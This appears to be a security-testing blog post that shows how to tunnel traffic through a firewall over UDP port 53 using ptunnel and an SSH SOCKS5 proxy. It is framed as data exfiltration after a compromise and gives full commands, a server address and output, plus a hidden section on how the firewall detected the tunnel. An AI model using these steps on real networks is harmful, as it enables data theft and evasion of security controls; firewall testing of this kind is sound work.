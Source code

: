 ```yaml
---
layout: post
title:  "Application Firewall Data Exfiltration over UDP (ptunnel)"
date:   2020-09-01 12:21:16 -0400
categories: exfiltration 
tags: gateway bypass
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that UDP is being permitted egress by the firewall.
</p>

<p>
ptunnel creates a tunnel interface on a system and then allows you to create a UDP tunnel between a clien
t and the server.
</p>
<p>
The server will need to be on the outside of your DUT (Device Under Testing). The idea is that the client
 will establish a tunnel to the server and be able to bypass the rest of the controls (URL Filtering, IPS, etc) in the network that the client is behind.
</p>


<h3>Step 1 - Deploy the ptunnel Server</h3>


<p>
In this case the ptunnel server is running on a host in GCP. Make sure the firewall is permitting port 53, or whichever port you decide to use to get around the DUT.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>


<p>
Once installed we can start the server. In this case we are enabling the UDP flag because ptunnel's default behaviour is to use ICMP (which is super slow). The -v enables visibility into what's going on. And -x boom is a password being set which is also optional.
<p>

<pre>
root@sperciballi-iodine:/home/stephen# ptunnel -udp -v 4 -x boom
[dbg]: Password set - unauthenicated connections will be refused.
[inf]: Starting ptunnel v 0.72.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: UDP transport enabled.
[dbg]: Starting ping proxy..
[dbg]: Creating UDP socket..
[inf]: Ping proxy is listening in privileged mode.
</pre>

<h3>Step 2 - Deploy the ptunnel Client</h3>

<p>
From a host behind the DUT run the ptunnel client. There are Windows binaries if you prefer but Linux is what we are using.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>

<p>
Once installed we can start the client. In this case we are again enabling the UDP flag. The -p IP address is the servers public IP address. The -lp 8080 is specifying a local port to proxy traffic through, and the -da localhost is specifying localhost as the proxy (in some circumstances you may want to use a different local IP). The -dp 22 is the destination port on the remote end we will be sending traffic through. And the -x boom is again the corresponding password.
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# ptunnel -udp -p 35.196.116.250 -lp 8080 -da localhost -dp 22 -x boom
[inf]: Starting ptunnel v 0.72.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: UDP transport enabled.
[inf]: Incoming connection.
[evt]: No running proxy thread - starting it.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping tunnel to 127.0.0.1:22 due to inactivity.
[inf]: 
Session statistics:
[inf]: I/O:   0.14/  0.01 mb ICMP I/O/R:      212/      67/      40 Loss:  0.6%
</pre>



<h3>Step 3 - Setup a Proxy</h3>


<p>
From the client system we will now configure an SSH SOCKS5 proxy. This will send all of our traffic over an encrypted SSH tunnel, through the UDP tunnel established by ptunnel. The main reason for this is ease of use. You could also setup a basic HTTP proxy like squid on the ptunnel server side.
</p>

<p>
To start the proxy from the client we ssh, specify the local port of 8080, -C compresses traffic, -D 8081 specifies to use 8081 as the SOCKS5 port, and -da localhost -dp 22 says to ssh into localhost. It is important to note that because we are actually using port 8080 this command is ssh'ing into the ptunnel host so <b>remember to use the login for the ptunnel server and not actually localhost.</b>
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# ssh -i ./google_compute_engine -p 8080 -C -D 8081  stephen@localhost
Enter passphrase for key './google_compute_engine': 
Linux sperciballi-iodine 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
</pre>


<h3>Step 4 - Proxy Your Traffic</h3>

<p>
At this point we have essentially enabled a proxy within a proxy. Now we have to tell our client system software to use the proxy.
</p>

<p>
In your web browser preferences search for proxy. Then configure it to use a SOCKS5 proxy, specify localhost for the host and port 8081 (from step 3) for the port.
</p>

<p>
From here if you search for what's my IP you will find that the IP address is that of the public interface of the ptunnel server.
</p>

<!--
<h3>Step 5 - View the Results</h3>

<p>
Check back in on the NGFW to see how it interpretted this session.
</p>

<p>
From this one we can see that there were two alerts. One of them was a traffic log that shows traffic going over UDP port 53. The application is unknown-udp. While this is not ideal it's better to be designated as unknown-tcp which you should be working to manage out of your ruleset than misidentified as DNS or something else. You can also see that the traffic amounted to 5.3M which was me visiting a couple of websites. Also important to note that you won't see this log until the session is ended by default.
</p>

<p>
The second alert is an IPS alert indicating that there was non-compliant DNS traffic. These two things together are a good indicated that someone is tunneling and is reason to adjust policy.
</p>

<img src="/images/appid-evasion-ptunnelresults.png">
<br>
<br>
-->
